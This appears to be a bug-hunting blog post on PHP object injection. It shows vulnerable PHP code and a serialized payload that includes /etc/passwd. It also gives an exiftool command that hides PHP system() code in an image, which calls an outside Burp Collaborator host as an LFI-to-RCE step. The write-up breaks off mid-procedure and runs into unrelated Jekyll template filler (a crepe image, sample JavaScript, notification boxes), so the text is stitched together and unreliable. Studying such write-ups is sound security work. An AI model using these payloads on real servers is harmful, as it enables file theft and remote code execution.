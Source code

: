 ```yaml
---
layout: 
title: PHPObjectInjection
subtitle: LFI to RCE
# gh-repo: daattali/beautiful-jekyll
gh-badge: [star, fork, follow]
tags: [WebAppVulnerabilities, Pentesting]
comments: true
---
```


Hello bug-hunters, today we are gonna talk about PHPObjectInjection and leveraging the power of Reflection to modify the serialized objects and access any arbitrary files from the server, later we will learn how to convert it into a RCE (Remote Code Execution). let the hunt begin;

## What is PHPObjectInjection?

Before we talk about the attack, let's undertsand what is Serialization? I hope you must be havinga an idea around it, lets have a revision,  

Serialization is basically converting a set of data structure or the objects into a stream of bytes to transmit it to a memory, a database, or a file. The main advantage of this technology is to save the state of an object in order to be able to recreate it whenever needed, eg. video games, etc.

**Areas of Risks**

Along with the advantage this technology also has its disadvantages. This vulnerability could occur when a user-supplied input is not appropriately sanitized before being passed to the unserialize() PHP function. Since PHP allows object serialization, a malacious actor could pass ad-hoc serialized strings to a vulnerable unserialize() call, resulting in an arbitrary PHP object(s) injection into the application scope.

In order to successfully exploit a PHP Object Injection vulnerability the following two conditions must be met:

   1. The application must have a class which implements a PHP magic method (such as __wakeup or __destruct) that can be used to carry out malicious attacks, or to start a “POP chain”.
   2. All of the classes used during the attack must be declared when the vulnerable unserialize() is being called, otherwise object autoloading must be supported for such classes.

## Attack Story

During a recent Pen Test I came across an interesting piece of PHP code that could lead to RCE, but the exploitation was bit tricky. After spending some sleepless nights trying to break this code, I identified that both application and system level code execution was possible using the vulnerability.

The vulnerable Code:

    /*<?php
  class HTMLFile
  {
    public $filename='help.html';
    public $bla =  1;
    public function __toString()
    {
        return '<iframe src=' . $this->filename ."></iframe>";
    }
  }
  class IncludeFile
  {
    public $filename = '';
    public function __toString()
    {
        include $this->filename;
        return "<br /><br />";
    }
  }
    if (isset($_GET['file'])){
    $htmlobject = unserialize(base64_decode($_GET['file']));
  } else {
    $htmlobject = new HTMLFile();
  }
  ?> 
    <?php echo $htmlobject; ?>*/

In the above code, a user controlled value can be passed on to a PHP un-serialization function. The application accepts a "filename" which gets called, and the output is then fed to php unserialize module. With the above bug both application level and system level code executions is possible. For exploiting this vulenarability both the conditions are satisfied. 

**Serialization example:**

Serializing a 3 char string array

![](https://github.com/InfoSecAntara/theantaramane/assets/sample_serializled_code.png)

**Understanding the serialized string**

![](https://github.com/InfoSecAntara/theantaramane/assets/understanding_serialzed.png)


In our case, I found an instance where the "file" parameter was carrying a base64 encoded payload, later identified to be a serialized object as following;

![](https://github.com/InfoSecAntara/theantaramane/assets/instance.png)

Deserialized form:

   "O:8:"HTMLFile":1:{s:8:"filename";s:9:"help.html";}"

At the response side if you'd see, we have another code which has class named "IncludeFile" a vulnerable function "filename" and a magic function "function __toString()", let's make our own payload

This is our payload; pretty easy to understand, I have just replaced the class name, make sure the string char lengths are exactly matching to that string name as follows;

   O:11:"IncludeFile":1:{s:8:"filename";s11:"/etc/passwd";}

This is cool, let's base64 encode it; and boomm!! it worked

![](https://github.com/InfoSecAntara/theantaramane/assets/img/etc_passwd.jpg)

Using the power of reflection we were able to modify the serialized objects and access any arbitrary files from the server!! Ins't this amazing?? 

Let's move on to RCE!

So I had a file upload functionality, and this functionality only allows the image filesto be uploaded, how this can e tirned into a Remote Code Execution??

   1. Create an Image file with PHP code using exif or any other image utility tool 
   2. Upoad the file and locate the path
   3. Utilize LFI include image file and make an Out of Band call to confirm the code execution
   4. Make use of the shell uploaded and run arbitrary commands 

We will be using exif tool with the following command:

   "exiftool -Comment='<?php system("nslookup 4lqd7k2ulofzkiwzv0m5gf7qohu8ix.burpcollaborator.net"); ?>' beingsecure.jpeg"

POC 

Next we will uploading the created image; 








How about a yummy crepe?

![Crepe](https://s3-media3.fl.yelpcdn.com/bphoto/cQ1Yoa75m2yUFFbY2xwuqw/348s.jpg)

It can also be centered!

![Crepe](https://s3-media3.fl.yelpcdn.com/bphoto/cQ1Yoa75m2yUFFbY2xwuqw/348s.jpg){: .mx-auto.d-block :}

Here's a code chunk:

~~~
var foo = function(x) {
  return(x + 5);
}
foo(3)
~~~

And here is the same code with syntax highlighting:

```javascript
var foo = function(x) {
  return(x + 5);
}
foo(3)
```

And here is the same code yet again but with line numbers:

{% highlight javascript linenos %}
var foo = function(x) {
  return(x + 5);
}
foo(3)
{% endhighlight %}

## Boxes
You can add notification, warning and error boxes like this:

### Notification

{: .box-note}
**Note:** This is a notification box.

### Warning

{: .box-warning}
**Warning:** This is a warning box.

### Error

{: .box-error}
**Error:** This is an error box.
